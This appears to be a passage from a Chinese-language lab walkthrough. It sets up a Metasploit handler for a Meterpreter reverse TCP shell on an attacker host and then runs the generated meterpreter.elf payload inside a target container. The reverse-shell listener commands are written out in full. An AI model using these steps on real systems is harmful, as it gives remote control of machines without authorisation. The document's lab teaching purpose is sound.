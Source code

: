 ![](./pics/上传成功.png)<br>

3. 攻击者主机，在metasploit里设置如下并`run -j`等待

```bash
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <攻击者主机IP>
set lport <端口>
run -j
```

注意，这里的IP和端口要和生成.elf文件时设置的一样

5. 在靶机上进入入口靶标的容器，在靶机里运行meterpreter.elf
![](./pics/进入容器下载文件并运行.png)<br>
